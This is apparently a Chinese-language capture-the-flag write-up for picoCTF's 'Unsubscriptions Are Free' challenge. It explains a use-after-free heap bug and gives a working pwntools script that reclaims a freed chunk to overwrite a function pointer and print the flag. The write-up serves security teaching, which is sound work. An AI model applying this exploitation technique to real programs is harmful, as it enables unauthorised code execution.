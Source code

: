 ## Recon
這題該怎麼說呢，有點像是被設計好的問題
1. 首先觀察整體的file
    ```bash
    $ file vuln
    vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=89699d062dc4f47448ba7c5c03105267c060ce30, not stripped
    $ checksec vuln
    [*] '/mnt/d/NTU/CTF/PicoCTF/PWN/Unsubscriptions Are Free/vuln'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    ```
    保護機制雖然沒有全開，不過應該是一個heap題
2. source code有一個`hahaexploitgobrrr` function，是print出flag的function所以我們的目標很明確，就是要想辦法踩到這個function，而`s()`/`p()`/`m()`都是無用的資訊
3. 遇到這種heap的題目，我會先看哪裡有malloc和free，確保幾個簡單的exploitation的可能性，例如uaf或double free之類的，而i function有一個free，是要註銷帳號的功能，但是main function中的`doProcess(user);`卻持續使用user這個變數，所以這個就是一個典型的UAF漏洞(我也是看了別人的WP[^uaf_wp_martin][^uaf_wp_Dvd848]後才知道他的題目已經有提示了，一開始是我想的太複雜了)，試想如果一開始我先輸入`i`，讓程式`free(user)`，接著他就會執行`doProcess(user)`也就是user指向的function pointer，如果我們可以拿到被free掉的user這個chunk然後輸入`hahaexploitgobrrr`這個function的address，那我們就可以拿到flag了
4. 所以重點來了，要怎麼拿到被free掉的chunk呢?這個程式==也很好心的==幫我們實作了`leaveMessage`這個function，他會malloc 8 bytes，其實就剛好是user的大小，所以如果要拿8 bytes的chunk他會先到Tcache搜尋，然後給我們寫一些資訊，此時我們就可以寫上`hahaexploitgobrrr`這個function的address(address的資訊可以透過`s` function得知)
5. 綜合以上資訊可以開寫script

## Exploit
```python
from pwn import *

r = process('./vuln')
# r = remote('mercury.picoctf.net', 61817)

r.recvuntil(b'(e)xit\n')
r.sendline(b'i')
r.recvuntil(b"You're leaving already(Y/N)?\n")
r.sendline(b'Y')

r.recvuntil(b'(e)xit\n')
r.sendline(b's')
r.recvuntil(b'OOP! Memory leak...0x')
hahaexploitgobrrr_addr = int(str(r.recv(7))[2:-1], 16)
success(hahaexploitgobrrr_addr)

r.recvuntil(b'(e)xit\n')
r.sendline(b'l')
r.recvuntil(b'try anyways:\n')
raw_input()
r.sendline(p64(hahaexploitgobrrr_addr))

success(f'Flag: {r.recvline().strip().decode()}')

r.close()
```

## Reference
[^uaf_wp_martin]:[ picoCTF 2021 Unsubscriptions Are Free ](https://youtu.be/ffJRcNEyApI)
[^uaf_wp_Dvd848]:[Unsubscriptions Are Free WP](https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Unsubscriptions_Are_Free.md)